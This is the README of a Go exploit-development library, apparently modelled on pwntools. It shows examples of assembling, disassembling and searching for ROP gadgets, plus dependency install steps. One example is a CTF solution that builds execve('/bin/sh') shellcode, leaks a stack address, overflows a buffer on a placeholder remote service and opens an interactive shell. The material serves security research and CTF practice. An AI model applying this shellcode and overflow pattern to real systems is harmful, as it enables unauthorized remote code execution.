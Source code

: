 # sploit [![Build Status](https://travis-ci.org/zznop/sploit.svg?branch=master)](https://travis-ci.org/zznop/sploit)

Sploit is a Go package that aids in binary analysis and exploitation. The motivating factor behind the development of
sploit is to be able to have a well designed API with functionality that rivals some of the more common Python exploit
development frameworks while taking advantage of the Go programming language. Excellent cross-compiler support,
goroutines, powerful crypto libraries, and static typing are just a few of the reasons for choosing Go.

This project is inspired by pwntools and other awesome projects. It is still early in development. Expect for this
project to be focused heavily on shellcoding, binary patching, ROP stack construction, and general binary analysis.

#### Solution for a CTF Challenge

```go
package main;

import(
    sp "github.com/zznop/sploit"
)

var arch = &sp.Processor {
    Architecture: sp.ArchI386,
    Endian: sp.LittleEndian,
}

var scInstrs = `mov al, 0xb   /* __NR_execve */
                sub esp, 0x30 /* Get pointer to /bin/sh (see below) */
                mov ebx, esp  /* filename (/bin/sh) */
                xor ecx, ecx  /* argv (NULL) */
                xor edx, edx  /* envp (NULL) */
                int 0x80`

func main() {
    shellcode, _ := sp.Asm(arch, scInstrs)
    r, _ := sp.NewRemote("tcp", "some.pwnable.on.the.interwebz:10800")
    defer r.Close()
    r.RecvUntil([]byte("HELLO:"), true)

    // Leak a stack address
    r.Send(append([]byte("/bin/sh\x00AAAAAAAAAAAA"), sp.PackUint32LE(0x08048087)...))
    resp, _ := r.RecvN(20)
    leakAddr := sp.UnpackUint32LE(resp[0:4])

    // Pop a shell
    junk := make([]byte, 20-len(shellcode))
    junk = append(junk, sp.PackUint32LE(leakAddr-4)...)
    r.Send(append(shellcode, junk...))
    r.Interactive()
}
```

#### Compiling Assembly to Machine Code

```go
package main;

import(
    "github.com/zznop/sploit"
    "encoding/hex"
    "fmt"
)

func main() {
    instrs := "mov rcx, r12\n"              +
              "mov rdx, r13\n"              +
              "mov r8, 0x1f\n"              +
              "xor r9, r9\n"                +
              "sub rsp, 0x8\n"              +
              "mov qword [rsp+0x20], rax\n"

    arch := &sploit.Processor {
        Architecture: sploit.ArchX8664,
        Endian: sploit.LittleEndian,
    }

    opcode, _ := sploit.Asm(arch, instrs)
    fmt.Printf("Opcode bytes:\n%s\n", hex.Dump(opcode))
}
```

```
$ ./assemble_example
Opcode bytes:
00000000  4c 89 e1 4c 89 ea 49 c7  c0 1f 00 00 00 4d 31 c9  |L..L..I......M1.|
00000010  48 83 ec 08 48 89 44 24  28                       |H...H.D$(|
```

#### Disassembling Code in an ELF Executable

```go
package main;

import(
    "github.com/zznop/sploit"
    "fmt"
)

var program = "../test/prog1.x86_64"

func main() {
    elf, _ := sploit.NewELF(program)
    vaddr := uint64(0x1135)
    count := 34
    fmt.Printf("Disassembling %v bytes at vaddr:%08x\n", count, vaddr)
    disasm, _ := elf.Disasm(vaddr, count)
    fmt.Print(disasm)
}
```

```
$ ./disassemble_example
Disassembling 34 bytes at vaddr:00001135
00001135: push rbp
00001136: mov rbp, rsp
00001139: sub rsp, 0x10
0000113d: mov dword ptr [rbp - 4], edi
00001140: mov qword ptr [rbp - 0x10], rsi
00001144: lea rdi, [rip + 0xeb9]
0000114b: call 0x1030
00001150: mov eax, 0
00001155: leave
00001156: ret
```

#### Querying and Filtering ROP Gadgets

```go
package main;

import(
    "github.com/zznop/sploit"
)

var program = "../test/prog1.x86_64"

func main() {
    elf, _ := sploit.NewELF(program)
    rop, _ := elf.ROP()

    matched, _ := rop.InstrSearch("pop rbp")
    matched.Dump()
}
```

```
0000111f: pop rbp ; ret
0000111d: add byte ptr [rcx], al ; pop rbp ; ret
00001118: mov byte ptr [rip + 0x2f11], 1 ; pop rbp ; ret
00001113: call 0x1080 ; mov byte ptr [rip + 0x2f11], 1 ; pop rbp ; ret
000011b7: pop rbp ; pop r14 ; pop r15 ; ret
000011b3: pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
000011b2: pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
000011af: add esp, 8 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
000011ae: add rsp, 8 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
...
```

## Dependencies

Some of Sploit's functionality relies on external dependencies. For instance, Sploit uses GCC's GAS assembler to
compile assembly code and capstone to disassemble compiled code as part of the API exposed by `asm.go`.

Install capstone:

```
git clone https://github.com/aquynh/capstone.git --branch 4.0.2 --single-branch
cd capstone
make
sudo make install
```

Install GCC cross-compilers. The following commands assume you are running Debian or Ubuntu on a Intel workstation
and may need changed if running another Linux distro:

```
sudo apt install gcc gcc-arm-linux-gnueabi gcc-aarch64-linux-gnu gcc-mips-linux-gnu \
  gcc-mipsel-linux-gnu gcc-powerpc-linux-gnu
```
